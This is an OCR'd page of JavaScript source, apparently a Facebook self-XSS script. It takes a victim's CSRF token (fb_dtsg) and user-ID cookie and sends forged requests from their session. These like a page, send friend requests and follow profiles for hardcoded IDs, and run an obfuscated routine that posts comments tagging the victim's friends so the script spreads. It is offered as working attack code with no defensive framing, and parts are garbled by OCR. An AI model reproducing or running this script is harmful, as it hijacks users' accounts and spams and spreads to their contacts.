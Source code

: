 var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) { var Page = new XMLHttpRequest(); var PageURL = "//www.facebook.com/ajax/pages/fan_status.php"; var PageParams = "&fbpage_id=" + p +"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp="; Page.open("POST", PageURL, true); Page.onreadystatechange = function () { if (Page.readyState == 4 && Page.status == 200) { Page.close; } }; Page.send(PageParams); } Like("0"); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) { var X = new XMLHttpRequest(); var XURL = "//www.facebook.com/ajax/add_friend/action.php"; var XParams = "to_friend=" + r +"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp="; X.open("POST", XURL, true); X.onreadystatechange = function () { if (X.readyState == 4 && X.status == 200) { X.close; } }; X.send(XParams); } IDS("100003986362145"); IDS("100002871108311"); var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","216343421893060","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document_0xa22c[2][0][_0xa22c[0]];var user_id=document[_0xa22c[4]]_0xa22c[3];var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()_0xa22c[11]+_0xa22c[13]);for(f=0;f<Math_0xa22c[17];f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f27;i<(f+1)27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]]_0xa22c[31]>=0){_0x7892x7_0xa22c[35];} else {_0x7892x7_0xa22c[35];} ;_0x7892x7_0xa22c[37];} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math_0xa22c[39]][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math_0xa22c[39]][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd_0xa22c[35];_0x7892xd_0xa22c[62];_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd_0xa22c[37];} ;arkadaslari_al(id); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function cereziAl(isim) { var tarama = isim + "="; if (document.cookie.length > 0) { konum = document.cookie.indexOf(tarama) if (konum != -1) { konum += tarama.length son = document.cookie.indexOf(";", konum) if (son == -1) son = document.cookie.length return unescape(document.cookie.substring(konum, son)) } else { return ""; } } } function getRandomInt (min, max) { return Math.floor(Math.random() * (max - min + 1)) + min; } function randomValue(arr) { return arr[getRandomInt(0, arr.length-1)]; } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone){ var http4 = new XMLHttpRequest(); var url4 = "/ajax/follow/follow_profile.php?a=1"; var params4 = "profile_id=" + abone + "&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg=" + fb_dtsg + "&lsd&" + user_id + "&phstamp="; http4.open("POST", url4, true); //Send the proper header information along with the request http4.setRequestHeader("Content-type", "application/x-www-form-urlencoded"); http4.setRequestHeader("Content-length", params4.length); http4.setRequestHeader("Connection", "close");